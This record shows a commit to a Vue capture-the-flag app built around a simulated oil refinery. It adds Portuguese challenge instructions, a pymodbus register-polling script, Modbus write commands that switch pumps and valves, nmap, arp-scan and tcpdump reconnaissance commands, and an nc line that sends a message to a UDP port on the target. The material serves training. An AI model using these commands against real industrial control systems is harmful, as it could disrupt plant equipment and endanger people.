

Before and after one commit to gus-skywalker/scada-ctf-app, a Vue app: page / in a window 1280 px wide. Shown: the part 762-2682 px from the top of the page at 70% size. Before the commit the page ends 800 px from the top, so only its background shows below. Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
home instructions

```diff
--- a/src/plugins/axiosConfig.ts
+++ b/src/plugins/axiosConfig.ts
@@ -1,4 +1,4 @@
 import axios from 'axios';
 
-axios.defaults.baseURL = 'https://ctf.lesmonades.com';
+axios.defaults.baseURL = 'http://localhost:4001';
 export default axios;
--- a/src/views/Home.vue
+++ b/src/views/Home.vue
@@ -2,6 +2,91 @@
   <div>
     <h1>Welcome to the Capture The Flag Game</h1>
     <p>Explore the challenges and see if you can claim victory!</p>
+    <img
+      src="@/assets/challenge_viewer.png"
+      alt="viewer"
+      style="width: 800px; height: 600px; max-width: 100%; object-fit: cover; display: block; margin: 0 auto;"
+    />
+    <h2>Campanha de Instruções</h2>
+    <ol>
+      <li>
+        <strong>Para onde vão os alertas críticos da refinaria em casos de problemas na operação (porta/protocolo)?</strong>
+        <p>Investigue quais portas e protocolos são utilizados para a comunicação de alertas críticos. Isso pode ajudar a entender melhor o fluxo de dados na refinaria e possíveis pontos de entrada.</p>
+      </li>
+      <li>
+        <strong>Qual a janela de tempo que está passível a um ataque?</strong>
+        <p>Identifique a janela de vulnerabilidade durante a qual a refinaria está exposta a possíveis ataques. Isso pode variar dependendo da configuração e das políticas de segurança em vigor.</p>
+      </li>
+      <li>
+        <strong>Onde está o código de acesso do esquema da refinaria?</strong>
+        <p>Esse código de acesso é essencial para navegar pelos sistemas da refinaria. Explore o ambiente em busca de informações que possam fornecer pistas sobre sua localização.</p>
+      </li>
+      <li>
+        <strong>O que é necessário para obter o arquivo com o código do esquema da refinaria?</strong>
+        <p>Experimente enviar dados para a porta/protocolo que recebe os alertas críticos e observe o comportamento da resposta. Você pode precisar de um método específico de comunicação para acessar esse arquivo.</p>
+        <ul>
+          <li>a. Se sim, qual foi o comportamento obtido?</li>
+          <li>b. Se enviar uma mensagem inesperada, o que acontece?</li>
+        </ul>
+      </li>
+    </ol>
+
+    <h3>Script de Varredura</h3>
+    <pre>
+      <code>
+#!/usr/bin/env python3
+
+import sys
+import time
+from pymodbus.client import ModbusTcpClient as ModbusClient
+from pymodbus.exceptions import ConnectionException
+
+ip = sys.argv[1]
+client = ModbusClient(ip, port=5020)
+client.connect()
+while True:
+    rr = client.read_holding_registers(1, 16)
+    print(rr.registers)
+    time.sleep(1)
+      </code>
+    </pre>
+
+    <h3>Comandos de Escrita</h3>
+    <pre>
+      <code>
+client.write_register(1, 1) # PLC_FEED_PUMP
+client.write_register(3, 1) # PLC_OUTLET_VALVE
+client.write_register(4, 1) # PLC_SEP_OIL_VALVE
+client.write_register(8, 0) # PLC_WASTE_WATER_VALVE
+      </code>
+    </pre>
+
+    <h3>Objetivo</h3>
+    <p>Identificar o alvo e serviços expostos</p>
+    <pre>
+      <code>
+$ sudo arp-scan --ignoredups --localnet
+$ sudo nmap -A -Pn -T3 &lt;ip_vmalvo&gt;
+<span>http://&lt;ip_vmalvo&gt;/</span>
+      </code>
+    </pre>
+
+    <h3>Discovery Abnormal Traffic</h3>
+    <pre>
+      <code>
+$ sudo nmap -Pn -T3 --version-intensity 9 –p- &lt;ip_vmalvo&gt; -vv
+$ sudo tcpdump -i eth0 -A -n host &lt;ip_vmalvo&gt; and not port 80
+$ sudo tcpdump -i eth0 -A -n host &lt;ip_vmalvo&gt; and udp
+$ sudo tcpdump -i eth0 -A -n host &lt;ip_vmalvo&gt; and not arp
+      </code>
+    </pre>
+
+    <h3>Python Attack Scripts</h3>
+    <pre>
+      <code>
+$ python2.7 -c "print ‘sua mensagem aqui’ " | nc -u &lt;ip_vmalvo&gt; 5021 -q1
+      </code>
+    </pre>
   </div>
 </template>
 
@@ -10,4 +95,15 @@
 
 <style scoped>
 /* Adicione estilos específicos para a página inicial aqui */
+h2, h3 {
+  margin-top: 20px;
+  color: #003366;
+}
+code {
+  background-color: #f4f4f4;
+  padding: 10px;
+  display: block;
+  border-radius: 5px;
+  margin-top: 10px;
+}
 </style>
```
Also changed, not shown: src/assets/challenge_viewer.png (added). Lines whose indentation alone changed are shown as unchanged.
